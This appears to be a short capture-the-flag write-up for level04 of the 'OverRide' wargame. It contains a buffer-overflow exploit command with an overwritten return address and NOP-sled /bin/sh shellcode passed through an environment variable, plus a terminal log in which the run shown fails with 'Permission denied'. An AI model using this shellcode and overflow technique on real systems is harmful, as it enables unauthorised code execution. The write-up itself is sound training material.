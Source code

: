 ### step 1: Decompile with Ghidra

We get the c source code of the program  

### step 2: Code analysis



segfault au 156ème char

( python -c 'print("A" * 156 + "\xae\xde\xff\xff")' ; cat ) | env -i SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') ./level04



level04@OverRide:~$ ( python -c 'print("A" * 156 + "\xae\xde\xff\xff")' ; cat "/home/users/level05/.pass" ) | env -i SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') ./level04
cat: Give me some shellcode, k
no exec() for you
/home/users/level05/.pass: Permission denied


- run python commands in gdb : `r <<< $(python -c "print 'A'*157")`
